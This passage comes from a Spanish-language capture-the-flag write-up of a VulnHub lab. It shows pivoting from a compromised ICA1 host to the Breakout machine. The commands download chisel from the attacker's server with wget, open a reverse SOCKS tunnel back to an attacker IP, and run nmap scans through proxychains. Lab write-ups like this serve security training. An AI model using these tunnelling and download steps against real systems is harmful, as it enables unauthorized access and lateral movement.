 c. Para escanear el host **`10.0.2.4`** fácilmente usaremos [chisel](https://github.com/jpillora/chisel/releases/tag/v1.9.0)

* Nos decargamos chisel en nuestra máquina y lo subimos a la **ICA1**

    ```bash
    root@kali> python -m http.server 8080
    ----------------------------------------------------
    bash-5.1# wget http://<IP Atacante>:8080/chisel -o-
    ```

    ```bash
    root@kali> ./chisel server --reverse -p 4444
    -----------------------------------------------------
    bash-5.1# ./chisel client <IP Atacante>:4444 R:socks
    ```

* Con esto tendremos una conexión de tipo **socks5** la cual deberemos añadir al archivo **/etc/proxychains4.conf**

    ```bash
    root@kali> cat /etc/proxychains4.conf
    <SNIP>
    # Quiet mode (no output from library)
    quiet_mode
    <SNIP>
    socks5  127.0.0.1 1080
    ```

d. Ahora, ya podemos acceder a la **Máquina Breakout** para analizarla.

a. Enumeramos los puertos que están abiertos.

* **`proxychains nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Vulnhub/Easy/Breakout/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos 21,80

* **`proxychains nmap -p<Ports>  <IP> -oN versiones`**
